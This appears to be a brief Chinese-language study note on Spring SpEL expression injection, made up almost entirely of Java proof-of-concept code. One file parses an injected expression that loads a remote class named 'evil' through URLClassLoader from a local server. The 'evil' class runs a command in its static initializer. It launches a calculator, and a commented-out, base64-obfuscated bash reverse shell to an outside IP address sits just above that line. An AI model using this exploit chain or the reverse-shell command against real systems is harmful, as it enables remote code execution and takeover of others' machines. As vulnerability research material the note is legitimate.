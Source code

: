 然后那个 getconstructors 其实也没必要那么写

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class SpelVulTest {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException {
        String cmdStr = "new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass(\"evil\").newInstance()";
        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class evil extends AbstractTranslet {
    static {
        try {
            //Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTQuMTE2LjExOS4yNTMvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}");
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }

    }

    public static void main(String[] args) {

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```
